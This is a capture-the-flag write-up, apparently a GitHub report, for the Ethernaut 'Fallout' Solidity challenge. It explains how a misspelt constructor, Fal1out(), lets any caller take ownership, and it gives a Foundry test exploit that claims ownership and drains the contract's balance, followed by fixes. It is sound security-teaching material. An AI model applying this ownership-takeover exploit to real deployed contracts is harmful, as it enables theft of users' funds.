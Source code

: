 # Level 2 - Fallout

## Objectives

- claim ownership of the contract

## Contract Overview

The `Fallout` contract works like a bank. It allows users (allocators) to
allocate ether into their separate balances.

- User can deposit money via `allocate()` function.
  - Their allocation will be saved in the `allocations` mapping.

```solidity
  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }
```

- Users can withdraw the money at any time via the `sendAllocation()` function
  by specifying themselves as the beneficiary in the function parameter.
- Users can also send their allocations to other allocators (they need to be
  present in the mapping) via the same `sendAllocation()` function.

  ```solidity
  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }
  ```

- The owner of the `Fallout` contract can withdraw all of the gathered funds at
  any time via the `collectAllocations()` function.
  ```solidity
  function collectAllocations() public onlyOwner {
  msg.sender.transfer(address(this).balance);
  }
  ```
- User can check the current balance of any allocator via the `allocatorBalance()` function.
  ```solidity
  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
  ```

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Fallout_slither.png)

## Finding the weak spots

The method has a comment that mentions that it's the contructor. Constructor methods run only right after the contract is deployed and they're commonly used to initialize the contract's state, like assigning an owner in this case. Constructors are declared using the constructor keyword or a function with the same name as the contract, in this case `Fallout`.

This contract is using solidity `^0.6.0` where construct should have the same name as name of contract so it should be named `Fallout()` but we have a misspelt here because what looks like the constructor is just a misspelt function `Fal1out` that can be called by anyone to claim ownership.

In other words the contract does not use the `constructor()` function, but instead a publicly accessible function named Fal1out(). Any account that sends some Ether to this function will be set as the new owner of the contract.

```solidity
  /* constructor */
  function Fal1out() public payable { // <-- this line over here
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```

## Potential attack scenario (hypothesis)

Attacker can call the faulty constructor and claim ownership of the contract. He can then withdraw all the funds.

## Plan of the attack

1. Attacker can call the `Fal1out()` function which will set him as the owner of the `Fallout` contract.
2. Attacker as the owner can withdraw all the funds.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/02-Fallout.t.sol))

```solidity
        // Attacker can call the `Fal1out()` function which will set him as the owner of the `Fallout` contract.
        emit log_string("Calling Fal1out() function");
        falloutContract.Fal1out{value: 1}();

        emit log_named_address(
            "New owner of the contract: ",
            falloutContract.owner()
        );

        // Attacker as owner can withdraw all the funds
        emit log_named_uint(
            "Balance of the contract before withdrawal: ",
            address(falloutContract).balance
        );

        emit log_string("Calling collectAllocations() function");
        falloutContract.collectAllocations();

        emit log_named_uint(
            "Balance of the contract after withdrawal: ",
            address(falloutContract).balance
        );

        // Test assertion
        assertEq(falloutContract.owner(), attacker);

        assertEq(address(falloutContract).balance, 0);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Fallout.png)

## Recommendations

1. \[CRITICAL\] The constructor of the `Fallout` contract should be fixed. Here
   is an example fix:

```solidity
constructor () public payable {
	owner = msg.sender;
	allocations[owner] = msg.value;
}
```

2. The emission of events should be added to the critical contract functions
   that modify the state of the contract. This will allow for better
   communication with off-chain components. It will also provide users with a
   better sense of what is happening inside the contract.
3. The use of OpenZeppelin TimelockController is recommended on
   `collectAllocations()` function to provide a better user experience and
   increase safety.

## Additional information

You can also read my two other solutions (using console and Remix) on my blog: https://matrix-0wl.gitbook.io/ethernaut/2.-fallout-typo-in-constructor

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)
- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
